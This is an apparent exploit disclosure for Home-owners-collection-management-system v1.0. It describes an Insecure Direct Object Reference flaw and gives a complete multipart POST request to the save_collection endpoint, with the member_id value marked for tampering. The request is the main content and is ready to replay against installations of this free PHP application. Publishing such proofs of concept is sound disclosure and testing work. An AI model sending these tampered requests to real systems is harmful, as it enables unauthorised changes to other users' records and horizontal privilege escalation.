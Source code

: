 # Exploit Title: Home-owners-collection-management-system v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Home-owners-collection-management-system v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add a member who is inactive to a collection(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hocms/classes/Master.php?f=save_collection HTTP/1.1
...
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="id"


------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="date_collected"

2023-10-04
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="collected_by"

user2
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="member_id"

4(CHANGE HERE)
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[3]"

100
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[4]"

100
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[1]"

200
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[5]"

50
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="fee[2]"

200
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="category_id[2]"

2
------WebKitFormBoundary3m9mLqErqI5Ro07b
Content-Disposition: form-data; name="total_amount"

200
------WebKitFormBoundary3m9mLqErqI5Ro07b--
```
